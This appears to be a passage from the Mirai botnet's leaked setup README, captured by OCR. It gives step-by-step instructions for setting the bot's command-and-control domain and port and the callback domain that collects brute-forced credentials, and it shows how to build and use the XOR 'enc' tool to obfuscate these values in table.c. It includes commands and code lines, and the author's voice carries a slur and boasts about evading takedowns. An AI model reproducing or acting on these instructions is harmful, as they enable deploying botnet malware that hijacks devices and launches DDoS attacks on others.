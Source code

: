 Bot has several configuration options that are obfuscated in (table.c/table.h). In ./mirai/bot/table.h you 
can find most descriptions for configuration options. However, in ./mirai/bot/table.c there are a few options
you *need* to change to get working.

- `TABLE_CNC_DOMAIN` - Domain name of CNC to connect to - DDoS avoidance very fun with mirai, people try to hit my CNC but I update it faster than they can find new IPs, lol. Retards :)
- `TABLE_CNC_PORT` - Port to connect to, its set to 23 already
- `TABLE_SCAN_CB_DOMAIN` - When finding bruted results, this domain it is reported to
- `TABLE_SCAN_CB_PORT` - Port to connect to for bruted results, it is set to 48101 already.

In `./mirai/tools` you will find something called enc.c - You must compile this to output things to put in 
the `table.c` file.

Run this inside mirai directory:

```bash    
./build.sh debug telnet
```
    
You will get some errors related to cross-compilers not being there if you have not configured them. This is
ok, won't affect compiling the enc tool.

Now, in the ./mirai/debug folder you should see a compiled binary called enc. For example, to get obfuscated 
string for domain name for bots to connect to, use this:

```bash    
./debug/enc string fuck.the.police.com
```
    
The output should look like this:
   
``` 
XOR'ing 20 bytes of data...
\x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22
```

To update the TABLE_CNC_DOMAIN value for example, replace  that long hex string with the one provided by `enc` 
tool. Also, you see "XOR'ing 20 bytes of data". This value must replace the last argument tas well. So for 
example, the table.c line originally looks like this:

```c
add_entry(TABLE_CNC_DOMAIN, "\x41\x4C\x41\x0C\x41\x4A\x43\x4C\x45\x47\x4F\x47\x0C\x41\x4D\x4F\x22", 30); // cnc.changeme.com
```

Now that we know value from enc tool, we update it like this:

```c    
add_entry(TABLE_CNC_DOMAIN, "\x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22", 20); // fuck.the.police.com
```
